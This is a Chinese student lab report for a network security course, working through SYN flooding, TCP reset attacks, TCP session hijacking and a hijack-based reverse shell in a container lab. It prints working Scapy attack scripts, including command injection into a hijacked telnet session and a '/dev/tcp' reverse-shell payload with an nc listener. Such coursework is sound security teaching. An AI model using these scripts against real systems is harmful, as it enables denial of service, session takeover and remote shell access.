

# Lab 3 TCP攻击实验

Course: 网络安全原理与实践
Lesson Date: 2026年3月20日
Status: Complete
Type: Lab

---

# 任务1：SYN泛洪攻击

我们先查看系统半连接队列的大小以及状态，当前为LISTEN状态                                           




我们查看受害者容器的防御机制设置`sysctl -a | grep syncookies`，注意这里要设置容器privileged:true保证可以使用sysctl改变系统变量


## 任务1.1：使用Python发起攻击

我们填充代码`synflood.py`如下（注意由于我们接下来的攻击效果通过telnet验证，因此我们要耗尽对应的23端口，其他HTTP为80端口，Netstat为指定端口）

```python
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits
ip  = IP(dst="10.9.0.5")
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp
while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # 源 iP
    pkt[TCP].sport = getrandbits(16)     # 源端口号
    pkt[TCP].seq   = getrandbits(32)     # 序列号
    send(pkt, verbose = 0)
```

在发动攻击前后，我们查看受害者容器队列的状态


运行一段时间后，我们运行`netstat -tna | grep SYN_RECV | wc -l` ，查看有多少半连接在队列里


我们通过telnet成功连接到受害者机器，说明攻击失败了


我们从以下几个办法改进我们的攻击，首先，在第一次连接成功建立后，TCP保留了队列的1/4给已被证实的IP地址，导致后续的连接建立的相当顺利，我们通过命令`ip tcp_metrics show` 可以查看缓存，为了解决该问题，我们运行命令`ip tcp_metrics flush` 来消除缓解机制影响


第二个问题是重传机制，当重传到达次数之后，TCP将会将相应连接从半打开的连接队列中删除，此时空位会由攻击数据包和telnet连接请求数据包竞争，我们考虑通过并行运行多个攻击程序优化攻击，在这里我们尝试并行运行了两个攻击程序即实现了攻击效果（通过`sysctl net.ipv4.tcp_synack_retries` 查看重传次数）


第三个问题事我们上面查询过的队列大小，我们可以通过`sysctl -w net.ipv4.icp_max_syn_backlog=80`来更改队列大小，更小的队列大小有利于提高攻击成功率

第四个问题发生在虚拟机攻击之间，在我们的实验设置中，任何从虚拟机出去的流量都将经过VirtualBox提供的NAT服务器。对于TCP，NAT会根据SYN数据包生成地址转换记录，它对后面该TCP连接里的包做地址转换都会用到这个记录。在我们的攻击中，攻击者产生的SYN数据包没有经过NAT（攻击者和受害者都在NAT背后），所以NAT里没有该连接的记录。当受害者将SYN+ACK数据包发回给源IP（由攻击者随机生成）时，这个数据包将通过 NAT 发送出去，但由于这个 TCP 连接在 NAT 里没有记录，NAT 不知道该怎么做，所以它会给受害者发回一个 TCP RST 数据包。

RST数据包导致受害者删除半开放的连接队列中的数据。因此，当我们试图用泛洪攻击填满这个队列时，VirtualBox 会帮助受害者从队列中删除我们的记录，我们的攻击能否成功就取决于我们的代码和 VirtualBox 之间的速度竞争。

## 任务1.2：使用C程序发起攻击

我们编译该C程序并重新发起攻击（主机上）`synflood 10.9.0.5 23` （如果不填写，采用默认即可），我们发现用C程序的攻击成功率是很高的，这是因为C程序可以达到Python程序约40倍的发送速率，高速攻击可以解决除了TCP缓存之外的大部分攻击问题


## 任务1.3：启用SYN Cookie防御机制

我们启用防御机制`sysctl -w net.ipv4.tcp_syncookies=1` ，重新运行攻击，可以看到攻击失败


# 任务2：TCP复位攻击实验

## 手动发起攻击

我们使用Scapy来进行TCP RST攻击，我们先建立受害者10.9.0.5到攻击者10.9.0.1的telnet连接，并捕获最新的从受害者10.9.0.5到攻击者10.9.0.1的TCP包，可以查看下一个序列号为693487140


我们根据得到的参数完成代码如下`tcprst.py` 

```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.1", dst="10.9.0.5")
tcp = TCP(sport=23, dport=36666, flags="R", seq=693487140)
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
```

运行后连接被成功关闭，证明攻击成功，同时wireshark中也出现异常包


## 自动完成攻击

我们自动完成编写的代码如下

```python
#!/usr/bin/python3
from scapy.all import *
def spoof_tcp(pkt):
   ip  = IP(dst="10.9.0.5", src=pkt[IP].dst)
   tcp = TCP(flags="R", seq=pkt[TCP].ack,
                  dport=pkt[TCP].sport, sport=pkt[TCP].dport)
   spoofpkt = ip/tcp
   send(spoofpkt, verbose=0)

pkt=sniff(filter='tcp dst port 23 and src host 10.9.0.5', prn=spoof_tcp)
```

如图成功实现自动化攻击


# 任务3：TCP会话劫持攻击实验

## 手动发起攻击

我们采用和上面一样的步骤，在两个容器间建立telnet连接，并捕获最新的从user10.9.0.6到服务器10.9.0.5的TCP包


根据参数我们相应地填充代码，在攻击者容器10.9.0.1上运行

```python
#!/usr/bin/env python3
from scapy.all import *

ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=44570, dport=23, flags="A", seq=3315469140, ack=3312126250)
data = "echo \"I love ZJU!\" >> ~/hijacking.out\n\0"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

成功完成劫持，我们在10.9.0.5上创建了需要的文件


## 自动发起攻击

我们参照相似的原理完成的自动化攻击脚本如下

```python
#!/usr/bin/env python3
from scapy.all import *
def spoof_pkt(pkt):
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    tcp = TCP(sport=pkt[TCP].dport, dport=23,
              flags="A",
              seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
    data = "echo \"I Love NJU\" >> ~/h1jacking.out\n\0"
    pkt = ip/tcp/data
    ls(pkt)
    send(pkt, verbose=0)
pkt = sniff(iface='br-453893afdea9', filter='tcp and src host 10.9.0.5', prn=spoof_pkt)

```

如图自动化攻击成功，当然我们可以通过定义全局变量使得攻击仅发动一次


# 任务4：使用会话劫持创建反向shell

我们对于提供的命令行进行修改，即可达到建立反向shell的效果

```python
#!/usr/bin/env python3
from scapy.all import *
def spoof_pkt(pkt):
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    tcp = TCP(sport=pkt[TCP].dport, dport=23,
              flags="A",
              seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
    data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\n\0"
    pkt = ip/tcp/data
    ls(pkt)
    send(pkt, verbose=0)
pkt = sniff(iface='br-453893afdea9', filter='tcp and src host 10.9.0.5', prn=spoof_pkt)

```

我们在攻击者机器上启动监听`nc -lnv 9090` 后运行脚本，可以看到成功获取到反向shell

